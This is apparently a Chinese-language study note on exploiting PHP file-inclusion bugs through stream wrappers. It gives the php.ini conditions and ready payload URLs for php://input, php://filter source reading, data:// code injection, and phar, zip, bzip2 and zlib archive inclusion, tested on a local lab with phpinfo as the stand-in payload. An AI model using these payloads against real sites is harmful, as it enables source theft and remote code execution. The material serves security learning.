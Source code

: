 ```yaml
---
title: php 文件包含伪协议利用
date: 2019-01-03 15:34:47
tags: [php,文件包含]
categories:
  - [php]
  - [整理]
  - [文件包含]
---
```


# php 文件包含伪协议利用

---

## 重要配置

PHP.ini：

allow_url_fopen ：on  默认开启  该选项为on便是激活了 URL 形式的 fopen 封装协议使得可以访问 URL 对象文件等。

allow_url_include：off  默认关闭，该选项为on便是允许 包含URL 对象文件等。

## PHP 中的封装协议(伪协议)

```
http://cn2.php.net/manual/zh/wrappers.php

file:///var/www/html 访问本地文件系统

ftp://<login>:<password>@<ftpserveraddress> 访问 FTP(s) URLs

data:// 数据流

http:// — 访问 HTTP(s) URLs

ftp:// — 访问 FTP(s) URLs

php:// — 访问各个输入/输出流

zlib:// — 压缩流

data:// — Data (RFC 2397)

glob:// — 查找匹配的文件路径模式

phar:// — PHP Archive

ssh2:// — Secure Shell 2

rar:// — RAR

ogg:// — Audio streams

expect:// — 处理交互式的流
```

## 利用file://协议

利用条件：双off的情况下也可以正常使用

file:// [文件的绝对路径和文件名]

![000](/img/FileContains/000.png)

## 利用php流input

*利用条件：*

1、allow_url_include = On。

2、对 allow_url_fopen 不做要求。

>/includes.php?file=php://input
>
>POST：`<?php phpinfo();?>`

![001](/img/FileContains/001.png)



## 利用php流filter

利用条件：双off的情况下也可以正常使用

通过指定末尾的文件，可以读取经 base64 加密后的文件源码。（读取敏感文件）

```php+HTML
?file=php://filter/convert.base64-encode/resource=includes.php
//includes.php是读取的文件
```

![002](/img/FileContains/002.png)

![003](/img/FileContains/003.png)

## 利用 data URIs

*利用条件：*

1、php 版本大于等于 php5.2

2、allow_url_fopen = On

3、allow_url_include = On

```shell
file=data:text/plain,<?php phpinfo();?>
file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
//%2b是+,需要使用url编码
```

![004](/img/FileContains/004.png)

## 利用phar

*利用条件：*

1、php 版本大于等于 php5.3.0

假设有个文件 phpinfo.txt，其内容为 `<?php phpinfo(); ?>`，打包成 zip 压缩包，如下：

> 路径：test.zip/test/phpinfo.txt

![004_1](/img/FileContains/004_1.png)

> ```shell
> # 相对路径
> includes.php?file=phar://upload/test.zip/test/phpinfo.txt
> 
> # 绝对路径
> includes.php?file=phar://C:/phpStudy/PHPTutorial/WWW/upload-labs/upload/test.zip/test/phpinfo.txt
> ```

![005](/img/FileContains/005.png)

![006](/img/FileContains/006.png)

## 利用zip://, bzip2://, zlib://协议

*利用条件：*

1、zip://, bzip2://, zlib://协议在双off的情况下也可以正常使用

zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件。

### zip://协议

**使用方法：**

zip://archive.zip#dir/file.txt

zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]

> 使用 zip 协议，需要指定绝对路径，同时将 `#` 编码为 `%23`，之后填上压缩包内的文件。

```shell
# 绝对路径
includes.php?file=zip://C:\phpStudy\PHPTutorial\WWW\upload-labs\upload\test.zip%23phpinfo.txt

# 相对路径
includes.php?file=zip://upload/test.zip%23phpinfo.txt
```

![007](/img/FileContains/007.png)

![008](/img/FileContains/008.png)

### bzip2://协议

**使用方法：**

compress.bzip2://file.bz2

利用linux压缩命令

```shell
#bzip2 压缩
bzip2 phpinfo
#生成phpinfo.bz2,上传到目录
```



```
includes.php?file=compress.bzip2://./upload/phpinfo.bz2
```
![010](/img/FileContains/010.png)

![011](/img/FileContains/011.png)

### zlib://协议

**使用方法：**

compress.zlib://file.gz

```shell
# 绝对路径
includes.php?file=compress.zlib://C:/phpStudy/PHPTutorial/WWW/upload-labs/upload/phpinfo.txt

# 相对路径
includes.php?file=compress.zlib://./upload/phpinfo.txt
```

![012](/img/FileContains/012.png)

![013](/img/FileContains/013.png)